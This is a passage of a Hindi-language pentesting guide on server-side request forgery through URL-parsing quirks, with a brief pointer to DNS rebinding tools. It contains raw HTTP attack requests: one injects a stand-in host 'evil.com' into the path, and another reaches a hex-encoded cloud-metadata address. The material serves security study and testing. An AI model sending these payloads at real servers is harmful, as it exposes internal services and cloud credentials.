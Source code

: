 कमजोर कोड:

<figure><img src="../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

यह पता चला कि एक अनुरोध के **पथ** की शुरुआत **`;`** अक्षर से करना संभव है, जो फिर **`@`** का उपयोग करने और एक नए होस्ट को इंजेक्ट करने की अनुमति देता है। हमले का अनुरोध:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
### PHP Built-in Web Server <a href="#heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation" id="heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation"></a>

<details><summary>कमजोर PHP कोड</summary></details>

PHP **यूआरएल के पथ में स्लैश से पहले `*` वर्ण** के उपयोग की अनुमति देता है, हालाँकि, इसके अन्य सीमाएँ हैं जैसे कि इसे केवल रूट पथनाम `/` के लिए उपयोग किया जा सकता है और पहले स्लैश से पहले बिंदुओं `.` की अनुमति नहीं है, इसलिए उदाहरण के लिए, एक बिंदु रहित-हेक्स एन्कोडेड आईपी पते का उपयोग करना आवश्यक है:
```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close
```
## DNS Rebidding CORS/SOP बायपास

यदि आपको **CORS/SOP** के कारण **स्थानीय IP से सामग्री निकालने में समस्या** हो रही है, तो **DNS Rebidding** का उपयोग उस सीमा को बायपास करने के लिए किया जा सकता है:

{% content-ref url="../cors-bypass.md" %}
[cors-bypass.md](../cors-bypass.md)
{% endcontent-ref %}

### स्वचालित DNS Rebidding

[**`Singularity of Origin`**](https://github.com/nccgroup/singularity) एक उपकरण है जो [DNS rebinding](https://en.wikipedia.org/wiki/DNS\_rebinding) हमलों को करने के लिए है। इसमें हमलावर के DNS नाम के IP पते को लक्षित मशीन के IP पते पर फिर से बाइंड करने और लक्षित मशीन पर कमजोर सॉफ़्टवेयर का शोषण करने के लिए हमले के पेलोड को सर्व करने के लिए आवश्यक घटक शामिल हैं।
